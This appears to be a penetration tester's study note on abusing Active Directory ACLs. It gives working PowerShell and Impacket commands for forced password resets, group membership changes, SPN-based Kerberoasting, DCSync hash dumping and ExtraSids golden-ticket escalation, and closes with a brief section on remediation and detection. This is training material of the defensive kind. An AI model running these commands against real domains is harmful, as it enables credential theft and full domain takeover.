 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```
![[Active Directory#Access Control List (ACL)]]
![[Active Directory#Access Control Entries (ACEs)]]
![[Active Directory#Discretional ACL (DACL)]]
![[Active Directory#System ACL (SACL)]]

## Key ACEs that can be abused
- [ForceChangePassword](https://bloodhound.specterops.io/resources/edges/force-change-password#forcechangepassword) : Gives us the right to reset a user's password without knowing their original password (*best to tell the client before resetting passwords - they could be used for other purposes too*).
- [GenericWrite](https://bloodhound.specterops.io/resources/edges/generic-write#genericwrite) : This gives us rights to change/write any non-protected attribute on an object. Eg. we could add ourselves to a group, add an SPN to another user so we can [[Kerberoasting|kerberoast]] them.
- [AddSelf](https://bloodhound.specterops.io/resources/edges/add-self#addself) : Shows security groups that a user can add themselves too.
- [GenericAll](https://bloodhound.specterops.io/resources/edges/generic-all#genericall) : Grants full control over a target object. If we have access to a computer that is using [[Windows#Local Administrator Password Solution (LAPS)|LAPS]] then we can get access to the password and obtain local administrator.
![[Pasted image 20250826144004.png]]
## ACL Enumeration
We can enumerate the ACLs of a domain/system to potentially gain further internal access. This can be done with [[Credentialed Enumeration#PowerView|PowerView]] and [[BloodHound]].
### Find all domain objects an SID controls
> this works for anything with an SID eg. users, groups, computers
```PowerShell
Import-Module .\PowerView.ps1
$sid = Convert-NameToSid [user]
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}
```
> This gets all domain object ACLs, then matches the SecurityIdentifier field to the SID we provided.
> `-ResolveGUIDs` ensures that the ACL types are in a human readable formate rather than their GUIDs

> This command can take a bit of time, especially in large AD environments
#### Performing this without PowerView
> [Get-ADUser](https://docs.microsoft.com/en-us/powershell/module/activedirectory/get-aduser?view=windowsserver2022-ps)
> [Get-Acl](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.security/get-acl?view=powershell-7.2)

**Create a list of domain users**
```PowerShell
Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt
```

**Get ACL information for each user**
```PowerShell
foreach($line in [System.IO.File]::ReadLines("<domain_users>")) {get-acl "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\<target_user>'}}
```

**Manually resolve the ObjectType GUID**
```PowerShell
$guid = "<guid>"
Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * | Select Name,DisplayName,DistinguishedName,rightsGuid | ? {$_.rightsGuid -eq $guid} | fl
```

### Identifying nested group
If a group is nested in another group, any users in the sub-group will obtain the rights given by the parent group. This can lead to excessive rights for users.
```PowerShell
Get-DomainGroup -Identity "<group_name>" | select memberof
```

## Useful ACL Abuse Processes
### Creating a PSCredential Object for another user
If we aren't logged in as another user, then we can use PSCredential objects to use them as a context for a PowerShell session
```PowerShell
$SecPassword = ConvertTo-SecureString '[pass]' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('[domain]/[user]', $SecPassword)
```

### Force change another user's password
```PowerShell
# Create a SecureString object that will house the new password
$NewPassword = ConvertTo-SecureString '[new_pass]' -AsPlainText -Force

# Force change the user's password with PowerView
# We use the $Cred variable from above to use another user's context (this is optional if we are already logged in as that user)
Import-Module .\PowerView.ps1
Set-DomainUserPassword -Identity [user] -AccountPassword $NewPassword -Credential $Cred -Verbose
```

### Add a user to a group
```PowerShell
# You can view all members of a group with this
Get-ADGroup -Identity "[group]" -Properties * | Select -ExpandProperty Members

# Add a user
Add-DomainGroupMember -Identity '[group]' -Members '[user]' -Credential $UserPSCredential -Verbose

# Remove a user
Remove-DomainGroupMember -Identity '[group]' -Members '[user]' -Credential $UserPSCredential -Verbose
```

### Updating a domain object
If we have permission to write to another user eg. `GenericAll`, then we can add a temporary fake SPN to a user, [[Kerberoasting|Kerberoast]] them, and potentially crack their password. This is useful as it means we aren't changing passwords and therefore potentially causing disruption.
```PowerShell
Set-DomainObject -Credential $Cred -Identity [target_user] -SET @{serviceprinciplename='temporary/PENTEST'} -Verbose

# We should also clean up the changed SPN
Set-DomainObject -Credential $Cred -Identity [target_user] -Clear serviceprinciplename -Verbose
```

## DCSync
DCSync is a technique for stealing an AD password database using the built-in *Directory Replication Service Remote Protocol*. This protocol allows DCs to replicate domain data. This attack could allow us to mimic a DC and retrieve user NTLM password hashes.

The core component of this attack is requesting a Domain Controller to replicate passwords via the `DS-Replication-Get-Changes-All` extended right (*a right that allows the replication of secret data*). If we have control of an account with `Replicating Directory Changes` and `Replicating Directory Changes All` permissions, we can perform this attack.

### Check a user for the permissions required
> Using PowerView
```PowerShell
Get-DomainUser -Identity [user] | select samaccountname,objectsid,memberof | fl
```
This will give us the `DC` identifier that we need eg. `DC=INLANEFREIGHT,DC=LOCAL` and it will also give us the user's `SID`.
```PowerShell
$sid = "[user_sid]"
Get-DomainObjectAcl "[DC_identifier]" -ResolveGUIDs | ? {($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} | select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
```
This will then show us all the replication permissions for that user. We are looking for `DS-Replication-Get-Changes-All`.

> If we had certain other rights such as: [WriteDacl](https://bloodhound.specterops.io/resources/edges/write-dacl) then we could add this to our users and remove it to hide our tracks later.

### Using secretsdump.py
```bash
secretsdump.py -outputfile hashes -just-dc [domain]/[user]@[dc-ip]
```
> `-just-dc-ntlm` will give us only NTLM hashes, as opposed to also giving kerberos keys too
> `-just-dc-user` will only give data on a specific user
> `-pwd-last-set` will show when each account last reset its password
> `-history` will dump out the entire password history
> `-user-status` can be used to later filter out all disabled users

Occasionally, we may get a file containing cleartext passwords. This will be from any users that have the account option to store their password with [reversible encryption](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/store-passwords-using-reversible-encryption). Even if this setting is disabled, a new password will need to be set. We can check for the `ENCRYPTED_TEXT_PWD_ALLOWED` useraccountcontrol:
```PowerShell
Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} | select samaccountname,useraccountcontrol
```

### Using [[Mimikatz]]
![[Mimikatz#Abusing ACLs DCSync DCSync]]


## SID History
The [sidHistory](https://docs.microsoft.com/en-us/windows/win32/adschema/a-sidhistory) attribute can have old SID's (*from another domain during a migration scenario*) added to ensure a new account doesn't lose its previous accesses when migrated. Through SID History injection, we can add the SID for administrators or domain admins to an account we control, thus gaining privileges which could lead to a [[#DCSync]] attack or TGT.

### Child -> Parent Domain compromise (ExtraSids attack)
We can use this same attribute from a compromised child domain to gain access to a group in the parent domain. We need the following information:
- The KRBTGT account hash for the child domain (*Use [[Abusing ACLs#DCSync | Mimikatz dcsync]] to gain the NT hash for the `krbtgt` account*)
- The SID for the child domain (*[[Credentialed Enumeration#PowerView|PowerView]] `Get-DomainSID`*)
- The name of a target user in the child domain (does not need to exist)
- The FQDN of the child domain
- The SID of the target group in the parent domain (*`activedirectory`'s `Get-ADGroup -Identity '[target-group]' -Server '[parent-domain]'`*)

> we can use `ls \\[FQDN-in-parent-domain]\c$` to prove we can't access it

We can then use [[Mimikatz]] to create the golden ticket:
![[Mimikatz#Create a Golden Ticket]]
We can now access any resource in the parent domain (*depending on the target group though*)
This can also be done with [[Rubeus]] too: 
![[Rubeus#Create a golden ticket]]

## Remediation and Detection
### Regular auditing for dangerous ACLs
- Regularly check for dangerous ACL configurations and remove them
- Train up admin staff to use tools like bloodhound to identify dangerous attack paths

### Monitor group membership
- High-importance groups should be monitored for any changes that could indicate an attack
- Look out for nested groups and identify whether they are needed

### Audit and monitor for ACL changes
- Automate the monitoring and alerting for potentially dangerous changes in ACLs
- Enable [Advanced Security Audit Policy](https://docs.microsoft.com/en-us/archive/blogs/canitpro/step-by-step-enabling-advanced-security-audit-policy-via-ds-access)